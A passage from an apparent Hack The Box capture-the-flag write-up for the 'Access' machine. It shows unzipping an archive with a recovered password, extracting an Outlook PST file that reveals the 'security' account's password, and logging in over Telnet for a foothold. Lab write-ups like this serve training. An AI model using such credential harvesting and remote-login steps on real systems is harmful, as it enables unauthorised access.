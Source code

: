 
### Access Control zip again
Now we have the password, so we should be able to unzip the file.
we can unzip it with the password `access4u@security`

```
 file 'Access Control.pst' 
Access Control.pst: Microsoft Outlook Personal Storage (>=2003, Unicode, version 23), dwReserved1=0x234, dwReserved2=0x22f3a, bidUnused=0000000000000000, dwUnique=0x39, 271360 bytes, bCryptMethod=1, CRC32 0x744a1e2e
```

#### pst file
`apt install pst-utils`
```
readpst 'Access Control.pst'
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.
```

### Access Control.mbox

`cat 'Access Control.mbox'`

from John to security
```
Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John
```

## Http Port 80
![[Pasted image 20230223130812.png]]


# Foothold

## Get the shell through Telnet
telnet is open, so we can try it with the credentials we have.
security:4Cc3ssC0ntr0ller
```
telnet access.htb   
Trying 10.129.88.24...
Connected to access.htb.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
```